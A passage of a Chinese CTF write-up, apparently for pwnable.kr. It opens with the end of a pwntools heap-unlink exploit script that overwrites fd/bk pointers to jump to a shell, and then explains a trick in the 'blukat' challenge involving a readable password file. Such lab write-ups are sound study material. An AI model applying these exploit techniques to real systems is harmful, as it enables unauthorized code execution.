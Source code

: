 ```python
'''

payload = p32(shell_addr)#(A->buf(0~3))
payload +="a"*(0x4+0x8)#(A->buf(4~7)+padding(0x08))
payload += p32(heap_addr+0x8+0x4)#(B->fd)
payload += p32(stack_addr+0x14-0x4)#(B->bk)

#print hex(stack_addr)+" "+hex(heap_addr)

io.send(payload)
io.interactive()
```



### 参考资料：

https://bbs.pediy.com/thread-247883.htm

[https://introspelliam.github.io/2017/06/26/0day/%E5%A0%86%E6%BA%A2%E5%87%BA%E5%88%A9%E7%94%A8%EF%BC%88%E4%B8%8A%EF%BC%89%E2%80%94%E2%80%94DWORD-SHOOT/](https://introspelliam.github.io/2017/06/26/0day/堆溢出利用（上）——DWORD-SHOOT/)

https://www.cnblogs.com/p4nda/p/7172104.html

https://blog.csdn.net/Apollon_krj/article/details/51302859

## 0x14 blukat

好绝一题

分析源码发现没有溢出点，难道真的只能爆破password?

然后ls -al 看了一下

```
blukat@prowl:~$ ls -al
total 36
drwxr-x---   4 root blukat     4096 Aug 16  2018 .
drwxr-xr-x 116 root root       4096 Nov 12 21:34 ..
-r-xr-sr-x   1 root blukat_pwn 9144 Aug  8  2018 blukat
-rw-r--r--   1 root root        645 Aug  8  2018 blukat.c
dr-xr-xr-x   2 root root       4096 Aug 16  2018 .irssi
-rw-r-----   1 root blukat_pwn   33 Jan  6  2017 password
drwxr-xr-x   2 root root       4096 Aug 16  2018 .pwntools-cache
```

可以看到 password是可读的。。。。。

但是这个回显导致一开始根本没去想。。。。

```bash
blukat@prowl:~$ cat password
cat: password: Permission denied #一般是权限不足的正常回显。。。。
```

后来发现password是可以scp下下来的，也就是说password里面就是这个字符串。。。。

